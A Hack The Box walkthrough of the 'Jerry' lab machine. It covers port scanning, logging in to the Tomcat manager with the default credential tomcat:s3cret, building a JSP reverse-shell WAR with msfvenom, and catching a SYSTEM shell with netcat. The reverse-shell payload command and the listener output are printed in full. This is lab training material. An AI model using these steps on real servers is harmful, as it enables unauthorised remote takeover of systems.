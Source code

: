 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.95

[+] Openning ports: 8080

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.95 -p8080
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 14:09 +07
Nmap scan report for 10.10.10.95
Host is up (0.25s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.30 seconds
```

### Apache Tomcat/7.0.88

At port 8080, it is Tomcat's home page.

![](images/2.png)

At manager page `http://10.10.10.95:8080/manager/html`, I try to login with defaul credential `tomcat:s3cret` and I got admin.

![](images/3.png)

## Foothold

### WAR file upload

Create `shell.war` using msfvenom to deploy in tomcat server.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war > shell.war
```

Upload file `shell.war` and deploy it.

![](images/4.png)

Execute web shell and got the reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:45.9]~/walkthrough/hackthebox/jerry
└─$ curl http://10.10.10.95:8080/shell/
```

At listener, I got system shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:46.0]~
└─$ sudo nc -nvlp 443                            
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```